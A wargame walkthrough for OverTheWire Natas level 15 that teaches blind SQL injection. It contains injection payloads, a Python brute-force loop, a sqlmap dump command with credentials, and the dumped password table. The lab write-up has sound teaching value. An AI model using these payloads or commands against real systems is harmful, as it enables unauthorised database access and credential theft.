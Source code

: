 ```yaml
---
title: Over The Wire Natas - Level 15 Solution
tags: [WebExploitation, OverTheWire, Walkthrough, Natas, SQLInjection]
---
```


In this post we will tackle Level 15 of the OverTheWire Natas Games.


<!--more-->
# What do we know

What all things does the hint or the View Source tells us:

```
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
```
So the table name is users and there are two columns username and password.

```
$link = mysqli_connect('localhost', 'natas15', '<censored>');
mysqli_select_db($link, 'natas15');
```
This looks to be a MySQL database hosted locally, can we accessed with username and a <censored> password, and the Database is `natas15`

```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";

$res = mysqli_query($link, $query);
if($res) {
if(mysqli_num_rows($res) > 0) {
    echo "This user exists.<br>";
} else {
    echo "This user doesn't exist.<br>";
}
} else {
    echo "Error in query.<br>";
}

```
Ok so the `$_REQUEST["username"]` parameter is vulnerable since we execute the query on whatever is passed.

It checks if the Query is valid, and the checks if the number of rows returned is more then 0 or not, i.e atleast one such entry exists in the Database. If its more then 0 then it returns "This user exists." else the other message.


# How to Solve this 

Lets Look at how we could potentially solve this. Our goal here is to try to come up with the password for the next level. And the assumption here is that its stored in the Table hopefully for the `natas16` user.

Lets check if the user exists or not

Trying `username=natas16` works, it says that the user exists. 

Now we need to come up with a query such that it leaks information to us regarding the other entries. 
We know that there is another column called password so if we are to send

`natas16" AND BINARY password="12345`

assuming that the password is '12345' is correct then we would have gotten This User Exists.

Since we do not know the password, lets try to guess it one character at a time.

How can we do that 

We know that this commands are getting executed inside the WHERE clause, looking at https://www.w3schools.com/SQL/sql_where.asp we see that there are few operators that we can use, the one of Interest is:

LIKE Search for a pattern. 

Looking at its docs here - https://www.w3schools.com/SQL/sql_like.asp 

We see that it can be used to do a pattern match for values starting with, which is a good start.

WHERE CustomerName LIKE 'a%'	Finds any values that start with "a"

Lets try to use it in our case:

`natas16" AND password LIKE"A%` -> Returns This user doesn't exist.

`natas16" AND password LIKE"T%` -> Retuns This user exist.


so we can try to brute force the entire Password one Character at a Time.

There is one problem left, since MySQL is case-insensitive by default it will match T as well t if its in the password. To make it case sensitve we need to add BINARY.

`natas16" AND BINARY password LIKE"T%`

Lets try to code this up.

# Main Code Snippet

```python
brute_pwd = []
while (len(brute_pwd) != 32):
    for each_char in characters:
        data_text = {
            "username": 'natas16" AND BINARY password LIKE"' + "".join(brute_pwd) + each_char + '%'
            }
        response = session.post(url,
                                data=data_text,
            auth=(present_user, present_level_15_pwd)
        )
        response_content = response.text
        if ('This user exists' in response_content):
            brute_pwd.append(each_char)
            break
    print("Found partial", "".join(brute_pwd))
```

Here we are running a loop and trying to find it one Character at a time, at the end we will get something like:

```

```

# Alternate approach 

sqlmap - can also be used, however it will result in a lot of traffic, however to get a better understanding we can also use sqlmap as following:

```
sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" --string="This user exists" --auth-type=Basic --auth-cred=natas15:TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB --data "username=natas16" --dbms mysql -D natas15 -T users -C username,password --dump --level 5 --risk 3

```

Lets explain the command a bit more

`--string` : signifies what should be parsed in the response if the tool is performing good.

`--auth-type` : The Authentication Header that we see in the request would be basic and we also pass `--auth-cred` with the actual credentials. 

`--data` : What is the data that we want to send via POST request. The tool will look at this and try to find if any of the input results in SQLi.

`--dbms` : We know that the data base is MySql based on the source code.

`-D` : Database is natas15 

`-T` : Table is users 

`-C` : Columns that we are interested to dump

`--dump` : To dump all the information for the supplied D,T and C.

`--level` and `--risk` : Signifies that if we want to try it with more permutations or attempts to see if it is actually vulnerable to SQL injection or not. Note: Giving high values will create more traffic.


So with these out of the way, and sqlmap set to work we should be seeing something like

```
02:06:21] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 425 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 4069=4069-- cAzs

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 7129 FROM (SELECT(SLEEP(5)))foDm)-- LCyT
---
[02:06:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
[02:06:35] [INFO] fetching entries of column(s) 'password,username' for table 'users' in database 'natas15'
[02:06:35] [INFO] fetching number of column(s) 'password,username' entries for table 'users' in database 'natas15'
[02:06:35] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[02:06:35] [INFO] retrieved: 4
[02:06:37] [INFO] retrieved: 6P151OntQe
[02:06:54] [INFO] retrieved: bob
[02:07:00] [INFO] retrieved: HLwuGKts2w
[02:07:18] [INFO] retrieved: charlie
[02:07:30] [INFO] retrieved: hROtsfM734
[02:07:50] [INFO] retrieved: alice
[02:07:58] [INFO] retrieved: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
[02:08:56] [INFO] retrieved: natas16
Database: natas15
Table: users
[4 entries]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| bob      | 6P151OntQe                       |
| charlie  | HLwuGKts2w                       |
| alice    | hROtsfM734                       |
| natas16  | TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V |
+----------+----------------------------------+

[02:09:07] [INFO] table 'natas15.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org/dump/natas15/users.csv'
[02:09:07] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'

```

This is great, and we did not write a script for it. I would only suggest this process once you know what actually is happening. Its better to get it done on your own with small scripts if you have the time and while learning so that you understand whats happening. Instead of relying on Ready Made tools.



# Continue Learning 

If you are able to understand Nepali Language, then perhaps you could also enjoy the YouTube Playlist that I have made for this topic going in Depth in each of the Levels.

